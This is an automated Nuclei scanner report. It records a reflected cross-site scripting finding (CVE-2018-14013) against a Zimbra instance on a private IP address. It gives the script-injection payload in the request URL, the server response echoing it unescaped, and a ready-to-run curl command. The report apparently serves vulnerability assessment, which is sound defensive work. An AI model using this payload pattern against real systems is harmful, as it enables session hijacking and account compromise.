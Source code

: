 ### Zimbra XSS (CVE-2018-14013) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2018-14013**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/zimbra/h/search?si=1&so=0&sfi=4&st=message&csi=1&action=&cso=0&id=%22%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:26 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Zimbra XSS |
| Authors | pikpikcu |
| Tags | cve, cve2018, xss, zimbra |
| Severity | medium |
| Description | Synacor Zimbra Collaboration Suite Collaboration before 8.8.11 has XSS in the AJAX and html web clients. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2018-14013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-14013) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /zimbra/h/search?si=1&so=0&sfi=4&st=message&csi=1&action=&cso=0&id=%22%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 259
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/zimbra/h/search?si=1&so=0&sfi=4&st=message&csi=1&action=&cso=0&id=""></script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2018-14013
- https://wiki.zimbra.com/wiki/zimbra_security_advisories
- https://bugzilla.zimbra.com/show_bug.cgi?id=109018
- https://bugzilla.zimbra.com/show_bug.cgi?id=109017

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36' 'http://192.168.198.179:8080/zimbra/h/search?si=1&so=0&sfi=4&st=message&csi=1&action=&cso=0&id=%22%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)